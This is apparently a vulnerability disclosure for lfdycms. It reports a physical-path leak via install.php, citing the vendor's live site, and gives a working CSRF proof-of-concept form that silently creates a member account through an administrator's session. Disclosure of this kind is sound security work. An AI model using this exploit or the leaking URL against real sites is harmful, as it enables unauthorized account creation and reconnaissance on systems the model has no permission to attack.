 # Information_Disclosure
Direct access to the URL: `/install.php?s=/1`, you can see the physical path leaked.

![](https://github.com/AvaterXXX/CVEs/blob/master/images/lfdycms_Information-Disclosure_1-1.png)
The CMS official website is ` http://www.lfdycms.com`,the same problem exists.

Access URL:` http://www.lfdycms.com/install.php?s=/1`

![](https://github.com/AvaterXXX/CVEs/blob/master/images/lfdycms_Information-Disclosure_1-2.png)

-----------------------------------------------------

# CSRF

poc:

```
<html>
  <body>
    <form action="http://www.a.com:83/admin.php?s=/Member/add.html" method="POST">
      <input type="hidden" name="username" value="123456" />
      <input type="hidden" name="password" value="123456" />
      <input type="hidden" name="repassword" value="123456" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

